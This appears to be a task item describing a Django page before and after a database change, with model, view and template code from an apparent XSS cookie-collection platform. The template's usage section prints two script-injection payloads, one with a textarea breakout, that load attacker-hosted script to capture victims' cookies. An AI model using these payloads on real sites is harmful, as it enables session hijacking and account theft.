
Before: /project/?id=1 (signed in) with the older database file.

After: the same page with the newer database file.
### core/models.py (models this page shows, shortened)
class XssProject(models.Model):
    user = models.ForeignKey(User)
    title = models.CharField(max_length=30)
    records = models.ManyToManyField(Record, blank=True, null=True)
    create_time = models.DateTimeField(auto_now_add=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a></p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

Changed rows visible on the page:
changed XssProject id 1: title "1111111111" → "2222222222"; create_time "2014-04-28 17:56:21" → "2014-04-28 20:53:38"
